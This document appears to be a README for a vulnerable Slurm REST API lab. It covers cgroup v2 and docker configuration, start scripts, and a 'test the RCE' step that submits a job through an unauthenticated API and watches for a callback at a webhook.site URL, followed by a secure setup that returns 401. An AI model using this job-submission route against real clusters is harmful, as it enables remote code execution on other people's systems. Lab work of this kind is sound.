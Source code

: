 # vulnerable setup
note that this is a smaller version of this docker compose setup: https://gitlab.com/SchedMD/training/docker-scale-out

## configure the OS 
on ubuntu 24.04 install docker and then:
```
sed -e 's@^GRUB_CMDLINE_LINUX=@#GRUB_CMDLINE_LINUX=@' -i /etc/default/grub
echo 'GRUB_CMDLINE_LINUX="systemd.unified_cgroup_hierarchy=1 systemd.legacy_systemd_cgroup_controller=0 cgroup_no_v1=all"' >> /etc/default/grub
update-grub
```
reboot the OS.
Validate the OS doesn't contain hybrid cgroup versions.
```
reboot
# Verify kernel has correct command line options:
grep -o -e systemd.unified_cgroup_hierarchy=. -e systemd.legacy_systemd_cgroup_controller=. /proc/cmdline
# systemd.unified_cgroup_hierarchy=1
# systemd.legacy_systemd_cgroup_controller=0
```
ref: https://slurm.schedmd.com/faq.html#cgroupv2

## configure docker
```
cat << EOFF >> /etc/docker/daemon.json
{
  "exec-opts": [
    "native.cgroupdriver=systemd"
  ],
  "features": {
    "buildkit": true
  },
  "experimental": true,
  "cgroup-parent": "docker.slice",
  "default-cgroupns-mode": "host",
  "storage-driver": "overlay2",
  "experimental": true,
  "ip6tables": true

}
EOFF

cat << EOFF >> /etc/systemd/system/docker.slice
[Unit]
Description=docker slice
Before=slices.target
[Slice]
CPUAccounting=true
MemoryAccounting=true
Delegate=yes
EOFF

mkdir /usr/lib/systemd/system/docker.service.d/
cat << EOFF >> /usr/lib/systemd/system/docker.service.d/local.conf
[Service]
LimitNOFILE=infinity
LimitNPROC=infinity
LimitCORE=infinity
TasksMax=infinity
Delegate=yes
EOFF

```

## setup
```
bash start.sh
```
## setup quick start
```
bash start_quick.sh
```
## test the RCE
```bash
curl -k -vvvv 'http://127.0.0.1:8082/openapi/v3' 
curl -X POST "http://127.0.0.1:8082/slurm/v0.0.39/job/submit" -H "Content-Type: application/json" -d @rest_api_test.json
```
open https://webhook.site/#!/view/7c925655-38c0-461a-b37d-f7aa05f747e4 to see the callback logs.

# secure setup
for testing the safe setup just send the request directly to the REST API server:
```
curl -k -vvvv 'http://10.11.1.6:6820/openapi/v3'
# HTTP/1.1 401 UNAUTHORIZED
```

